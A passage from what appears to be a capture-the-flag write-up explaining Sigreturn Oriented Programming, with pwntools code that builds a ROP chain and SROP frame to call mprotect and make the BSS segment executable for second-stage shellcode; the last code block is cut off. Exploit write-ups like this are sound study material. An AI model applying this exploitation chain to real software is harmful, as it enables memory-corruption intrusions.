This is where I got stuck for a while, but then I remembered a technique that was (prior to this challenge) mostly unknown to me- SROP, or Sigreturn Oriented Programming. This technique relies on making a [sigreturn](https://x64.syscall.sh/) syscall. After some quick research, I found that with SROP, you can control the values of all registers given three primitives: a large stack write, ability to control `rip`, and a sigreturn (`rax = 0xf`) `syscall; ret` gadget. The first two conditions we already fulfill with our call to `read` to start a ROP chain. The third condition is a little trickier; while we already have a `syscall; ret` instruction as part of our initial shellcode, we still don't have a gadget to control `rax`. However, a [writeup](https://hackmd.io/@imth/SROP) I was referencing brings up the fact that `read` returns the number of bytes read in `rax`. Because we can call `read` via the PLT, this can serve as our set `rax` "gadget" if we send exactly 0xf bytes.

So far, our ROP chain looks like this:

```python
syscall_ret = 0x500004          # syscall; ret address from our shellcode
frame = SigreturnFrame()

payload = flat(
    p64(rop.rdi.address),
    p64(0),                     # stdin
    p64(rop.rsi.address),
    p64(0x00000000),            # some address (tbd)
    p64(0),                     # junk for a second pop in the gadget
    p64(elf.plt['read']),       # read to put 0xf in rax
    p64(syscall_ret),           # sigreturn syscall
    bytes(frame),               # SROP frame
)
```

You'll notice that I haven't provided an actual address for `read` to put its data in yet. Before we can answer that question, we need to answer the question of what we want to do with our SROP frame. Our SROP frame will pop values off the stack into all of our registers. While this gives us control over all our registers, it also means we need to provide values for both `rip` and `rsp`.

Since our current goal is to run more shellcode, I opted to use the SROP frame to setup our registers for a `mprotect` syscall to make the BSS memory segment (known readable/writable address) exectuable. This is where we can put our second set of shellcode. To do so, `rip` will point to our `syscall; ret` gadget so we can perform the `mprotect` call. Since this gadget ends in a `ret`, `rsp` will essentially serve as a pointer to our next gadget. By setting `rsp` to the BSS address, we can jump to our shellcode.

This is where the buffer address for `read` comes in- we set it to BSS because that's where we're going to store our shellcode. We can use our `0xf` bytes of write to write that many bytes of shellcode, which our SROP call will allow us to execute. With that in mind, our ROP chain now looks like this:

```python
syscall_ret = 0x500004          # syscall; ret address from our shellcode
bss = elf.bss()

frame = SigreturnFrame()
frame.rip = syscall_ret
frame.rax = 0x0a                # mprotect
frame.rdi = bss - 0x10          # align to start of BSS segment
frame.rsi = 0x1000
frame.rdx = 0x1 | 0x2 | 0x4     # rwx permissions
frame.rsp = 0x400598            # pointer to bss (found using `p2p seven_patched` in pwndbg)

payload = flat(
    p64(rop.rdi.address),
    p64(0),                     # stdin
    p64(rop.rsi.address),
    p64(bss),                   # BSS memory segment
    p64(0),                     # junk for a second pop in the gadget
    p64(elf.plt['read']),       # read to put 0xf in rax
    p64(syscall_ret),           # sigreturn syscall
    bytes(frame),               # SROP frame
```